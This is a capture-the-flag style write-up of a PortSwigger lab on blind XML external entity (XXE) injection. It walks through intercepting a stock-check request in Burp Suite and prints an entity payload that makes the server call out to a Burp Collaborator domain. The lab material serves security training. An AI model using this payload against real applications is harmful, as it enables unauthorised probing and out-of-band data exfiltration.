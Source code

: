 # Blind XXE with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction) has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:

```text
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```

5. Replace the ``productId`` number with a reference to the external entity `&xxe;`

![XXE](/_static/images/xxe6.png)

6. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of the payload.

![XXE](/_static/images/xxe7.png)

If you don't see any interactions listed, wait a few seconds and try again. 

## Exploitability

An attacker needs to use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._
